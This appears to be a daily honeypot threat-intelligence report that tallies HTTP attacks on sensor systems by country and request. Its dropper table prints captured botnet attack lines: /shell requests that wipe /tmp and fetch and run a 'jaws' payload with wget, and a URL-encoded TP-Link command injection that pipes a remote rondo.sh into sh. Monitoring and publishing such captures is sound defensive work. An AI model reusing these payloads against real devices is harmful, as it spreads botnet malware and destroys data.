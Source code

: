 ```yaml
---
title: "Report: 2025-07-09 "
date: 2025-07-09
desciption: "Report: 2025-07-09" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-09 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 11 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 556 requests were recorded during the day, originating from 11 different countries, with a peak of 220 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|------------------|--------------------|

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                           |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.222.130.125  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.216.86.134   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.210.161.193  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 49.65.102.238  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.219.103.247  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.222.194.26   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 8.213.136.165  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 45.135.194.11  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Ccurl%20http%3A%2F%2F169.255.72.169%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |
| 8.222.236.162  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 47.242.136.130 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |
| 43.142.121.147 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                              |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|    |   number_of_occurence | request                                   |
|---:|----------------------:|:------------------------------------------|
| 13 |                     4 | ABCDEFGHIJKLMNOPQRSTUVWXYZ9999            |
| 25 |                     2 | GET /aws/.git/config HTTP/1.1             |
| 27 |                     2 | GET /github/.git/config HTTP/1.1          |
| 64 |                     1 | GET /api/contents?type=directory HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   220 | US                 |
|  1 |                    53 | HK                 |
|  2 |                    47 | DE                 |
|  3 |                    38 | NL                 |
|  4 |                    19 | PL                 |
|  5 |                    18 | IN                 |
|  6 |                    15 | CA                 |
|  7 |                    15 | RU                 |
|  8 |                    14 | JP                 |
|  9 |                    10 | GB                 |
| 10 |                    10 | SG                 |
| 11 |                     9 | MU                 |
| 12 |                     8 | CN                 |
| 13 |                     8 | GH                 |
| 14 |                     7 | BG                 |
| 15 |                     7 | LT                 |
| 16 |                     6 | UA                 |
| 17 |                     6 | BE                 |
| 18 |                     5 | AO                 |
| 19 |                     5 | KR                 |
| 20 |                     4 | SC                 |
| 21 |                     3 | ES                 |
| 22 |                     3 | KZ                 |
| 23 |                     3 | AE                 |
| 24 |                     3 | IE                 |
| 25 |                     3 | BR                 |
| 26 |                     2 | TR                 |
| 27 |                     2 | EE                 |
| 28 |                     2 | MD                 |
| 29 |                     2 | IL                 |
| 30 |                     2 | VN                 |
| 31 |                     1 | BA                 |
| 32 |                     1 | SE                 |
| 33 |                     1 | AR                 |
| 34 |                     1 | GT                 |
| 35 |                     1 | IT                 |
| 36 |                     1 | BD                 |
| 37 |                     1 | GE                 |
